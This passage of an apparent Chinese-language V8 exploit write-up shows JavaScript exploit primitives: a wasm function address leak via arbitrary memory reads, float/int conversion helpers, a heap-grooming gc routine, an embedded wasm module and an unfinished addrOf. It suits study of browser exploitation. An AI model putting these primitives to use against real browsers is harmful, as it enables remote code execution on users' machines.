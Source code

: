 ```c
           3: 518
           4: 0x26aa75eabf09 <JSFunction 0 (sfi = 0x26aa75eabdc9)> <----- wasm function

```

获取wasm_function对象地址的代码：

```javascript
function addrOfWasmObj(obj){
	data_buf.leakobj = obj;
	let mapAddr = dataview_read64(data_buf_addr-1);
	let instance_addr = dataview_read64(mapAddr + 0x2f);
	let objAddr = dataview_read64(instance_addr + 0x2f);
	return objAddr;
}
```



exp 代码：

```javascript
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var Uint32 = new Uint32Array(buf);

function f2i(f)
{
	float64[0] = f;
	let tmp = Array.from(Uint32);
	return tmp[1] * 0x100000000 + tmp[0]; 
}

function i2f(i)
{
	let tmp = [];
	tmp[0] = parseInt(i % 0x100000000);
	tmp[1] = parseInt((i-tmp[0]) / 0x100000000);
	Uint32.set(tmp);
	return float64[0];
}

function hex(i)
{
	return i.toString(16).padStart(16, "0");
}


function gc() {
    for (let i = 0; i < 100; i++) {
        new ArrayBuffer(0x100000);
    }
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var wasm_function = wasmInstance.exports.main;

function addrOf(obj){

	let o = {a: 13.37, b: 14.47};
```